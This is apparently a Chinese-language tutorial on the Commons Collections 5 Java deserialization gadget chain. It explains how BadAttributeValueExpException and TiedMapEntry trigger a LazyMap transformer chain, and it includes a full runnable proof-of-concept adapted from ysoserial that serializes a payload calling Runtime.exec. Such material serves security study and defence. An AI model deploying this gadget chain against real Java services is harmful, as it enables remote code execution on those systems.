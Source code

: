 ## 环境准备

JDK1.8(8u421)我以本地的JDK8版本为准、commons-collections(3.x 4.x均可这里使用3.2版本)

cc3.2：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
```

## 正文

CC1攻击链：https://www.cnblogs.com/erosion2020/p/18553568

CC5是 CC1 的一个变种，CC1在JDK1.8之后对AnnotationInvocationHandler 进行了修复，使得攻击链不能被正常利用，在CC5提到的攻击链中使用了`TiedMapEntry`以及`BadAttributeValueExpException`来完成攻击链的触发。

让我们来看一下为什么通过这两个类可以完成攻击链的触发。

## TiedMapEntry

`TiedMapEntry` 是 `Commons Collections` 中的一个类，它主要用于将一个 `Map` 的键值对与其他对象绑定起来，形成一个 "绑定"（tied）关系。这个类的目的是允许 `Map` 条目（即键值对）与附加的对象（比如某些回调函数或特殊处理对象）一起存储。具体来说，`TiedMapEntry` 通过包装 `Map` 的条目，并与目标对象一起存储，来支持一些懒加载机制或触发特定的操作。

### CC5中的应用

在 **CC5（Commons Collections 5）** 的攻击链中，`TiedMapEntry` 起到了关键的“桥梁”作用。攻击者利用 `TiedMapEntry` 和 `LazyMap` 的结合来构建攻击链。

1. **`LazyMap` 的懒加载机制**：`LazyMap` 被用来延迟加载对象，攻击者通过将恶意代码与 `LazyMap` 绑定，延迟执行某些操作。`TiedMapEntry` 在这里负责将恶意的 `LazyMap` 对象和其他需要的对象绑定在一起。
2. **`TiedMapEntry` 和 `LazyMap` 配合**：攻击者可以将 `TiedMapEntry` 与 `LazyMap` 一起使用，通过访问 `LazyMap` 中的条目，来触发懒加载的恶意代码。这个过程通常是在反序列化时自动发生的。
3. **触发反序列化时的恶意操作**：当反序列化包含 `TiedMapEntry` 的对象时，访问 `TiedMapEntry` 的 `getValue()` 方法会触发与之绑定的恶意操作，最终可能执行恶意代码。

### 关键代码分析

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
	......
    public Object getKey() {
        return this.key;
    }
	// action1: 会执行到这个地方
    // 最终要把Map变成一个LazyMap，那这样的话就会触发LazyMap的get方法，而LazyMap中的get方法则会触发transformer方法
    public Object getValue() {
        return this.map.get(this.key);
    }
	// action0: 重点在这个方法中，他调用了getValue方法
    public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
}
```

## BadAttributeValueExpException

`BadAttributeValueExpException` 是 `javax.management` 包中的一个类，通常用于描述与 Java Management Extensions (JMX) 相关的异常。该类的构造方法接受一个 `Object` 类型的参数 `val`，代表异常的具体值。

在安全漏洞利用中，`BadAttributeValueExpException` 常被用作反序列化攻击链的一部分。由于其 `val` 字段是可访问的，攻击者可以通过将恶意对象（例如 `TiedMapEntry`）赋值给该字段，间接触发恶意代码的执行。

### CC5中的应用

在 **CC5** 攻击链中，`BadAttributeValueExpException` 是触发攻击链的关键对象之一。攻击者通过反序列化时将 `TiedMapEntry` 或其他恶意对象设置为 `val` 字段的值，使得反序列化过程中触发恶意的代码执行。

### **CC5 攻击链的具体应用：**

1. **构造 `BadAttributeValueExpException`**：首先构造一个 `BadAttributeValueExpException` 对象，并通过反射将恶意的 `TiedMapEntry` 对象设置到 `val` 字段中。
2. **触发反序列化**：在反序列化过程中，`BadAttributeValueExpException` 的 `val` 字段会被访问，而这个字段绑定了一个 `TiedMapEntry` 对象。此时，`TiedMapEntry` 的 `getValue()` 方法被调用，从而触发 `LazyMap` 的懒加载操作。
3. **执行恶意代码**：`LazyMap` 中的 `Transformer` 链会被触发，最终执行绑定的恶意操作（如执行命令、反向连接等）。

### 关键代码分析

```java
public class BadAttributeValueExpException extends Exception   {
    private static final long serialVersionUID = -3105272988410493376L;
	// 要把val构造成一个TiedMapEntry，这样在执行反序列化方法readObject时就会触发TiedMapEntry.toString方法
    // 然后TiedMapEntry.toString方法会执行TiedMapEntry.getValue方法，然后会执行到LazyMap.get(this.key)
    // LazyMap.get方法中会调用Transformer.transformer方法，而这里的Transformer就是我们精心构造的TransformerChained
    private Object val;
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);
        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            // 重点是这个方法
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

## 构造POC

一样，这里还是直接把ysoserial的代码转换成本地可以直接执行调试的代码

```java
public class CommonsCollections5 {
    static String serialFileName = "commons-collections5.ser";

    public static void main(String[] args) throws Exception {
        cc5byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc5byYsoSerial() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(val);
        oos.flush();
        oos.close();
    }
}
```

## 调试

来弹个cmd

![image-20241119161717938](./main.assets/cc5-1.png)

## 调用链

其实和CC1的调用链非常非常像，只是攻击链的触发点不一样

* ObjectInputStream.readObject()
  * BadAttributeValueExpException.readObject()
    * TiedMapEntry.toString()
      * TiedMapEntry.getValue()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Class.getMethod()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.getRuntime()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.exec()

